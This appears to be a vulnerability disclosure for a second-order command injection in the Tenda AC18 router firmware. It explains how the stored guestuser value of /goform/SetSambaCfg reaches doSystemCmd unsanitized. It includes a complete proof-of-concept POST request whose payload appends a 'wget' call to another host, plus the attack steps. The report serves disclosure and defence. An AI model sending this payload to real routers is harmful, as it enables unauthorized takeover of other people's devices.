





# Information

**Vendor of the products:**  Tenda

**Vendor's website:**  [https://www.tenda.com.cn](https://www.tenda.com.cn/)

**Reported by:**  YanKang、ZhangChangqing、WeiKanghong

**Affected products:** Tenda AC18 router

**Affected firmware version:** V15.03.05.05_multi

**Firmware download address:** https://www.tenda.com.cn/material/show/2610


# Overview

A command injection vulnerability exists in Tenda AC18 routers running firmware version V15.03.05.05_multi. The vulnerability is located in the /goform/SetSambaCfg interface, where improper handling of the guestuser parameter allows attackers to execute arbitrary system commands. Successful exploitation may lead to full compromise of the affected device.

# Vulnerability details

The handler `formSetSambaConf` obtains the `guestuser` value from the HTTP request and stores it persistently via `SetValue("usb.samba.guest.user", guestuser)`. On subsequent requests, the firmware retrieves the previously stored value using `GetValue("usb.samba.guest.user", s)` and passes it directly into `doSystemCmd("busybox deluser %s", s)` without sanitization or quoting. Since `doSystemCmd` is an external command execution wrapper, shell metacharacters contained in `s` (e.g., `;`) break out of the intended command context, resulting in arbitrary command execution. This behavior matches the observed second-order execution during verification (payload executed starting from the second request).








# POC

The exploitation occurs when an authenticated attacker submits a specially crafted POST request to the /goform/SetSambaCfg endpoint containing malicious shell metacharacters in the guestuser parameter. The injected value is stored persistently and later used in a system command without proper sanitization. When the affected functionality is triggered in a subsequent request, the injected commands are executed, allowing arbitrary command execution on the device.

```
POST /goform/SetSambaCfg HTTP/1.1
Host: 192.168.2.1
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Origin: http://192.168.2.1
Referer: http://192.168.2.1/samba.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 140
Cookie: password=25d55ad283aa400af464c76d713c07adavrtgb

fileCode=UTF-8&password=admin&premitEn=1&guestpwd=guest&guestuser=guest;wget http://192.168.2.140&guestaccess=r&internetPort=21
```


# Attack Demo

The complete attack flow involves the following steps:

1.**Initial Access:** An attacker first obtains valid credentials and authenticates to the router's web interface via the `/login.html` page.

2.**Payload Injection:** The attacker submits a specially crafted POST request to the /goform/SetSambaCfg endpoint. By injecting shell metacharacters into the guestuser parameter, the attacker is able to store a malicious value in the device’s configuration. In the demonstration payload, a command separator (;) is used to append an additional system command. The injected command shown in the request is used solely to demonstrate that arbitrary commands can be executed by the underlying operating system.



3.**Trigger Condition:** The injected payload is not executed immediately. Instead, it is persistently stored and later retrieved by the firmware logic. During a subsequent operation, the stored guestuser value is passed directly to a system command without proper sanitization. At this point, the previously injected command is executed, confirming a second-order command injection vulnerability and resulting in arbitrary command execution on the affected device.



# Supplement

This vulnerability allows an authenticated attacker to execute arbitrary system commands on the affected device, leading to a complete compromise of the router. Successful exploitation may result in unauthorized access to sensitive information, modification of system configuration, and disruption of device availability.

The issue has been assigned a **CVSS v3.1** base score of **8.8 (High)** with the vector **CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H.**
